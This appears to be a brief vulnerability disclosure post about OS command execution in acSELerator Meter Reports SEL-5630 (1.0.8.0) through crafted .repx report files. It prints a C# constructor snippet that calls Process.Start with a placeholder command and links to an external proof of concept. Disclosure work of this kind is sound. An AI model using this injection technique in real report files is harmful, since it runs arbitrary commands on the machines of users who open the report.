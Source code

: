 ```yaml
---
layout: post
title: acSELerator Meter Reports SEL-5630
date: 2019-12-20
excerpt: "."
tags: [exploit]
comments: false
---
```

## acSELerator Meter Reports SEL-5630 (1.0.8.0) OS Command Execution
When a report is parsed, various .Net Assemblies are loaded. A
specially crafted .repx file can abuse the "System.Diagnostics" namspace
and execute arbitrary os commands in the context of the user loading the
report.
```
       public SERReport() {
            System.Diagnostics.Process.Start("OS_COMMAND_HERE"); // thanks!
            this._resourceString = DevExpress.XtraReports.Serialization.XRResourceManager.GetResourceFor("XtraReportSerialization.SERReport");
            this.InitializeComponent();
        }
```
a POC and more can be found here.
[SEL-5630](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-5630)

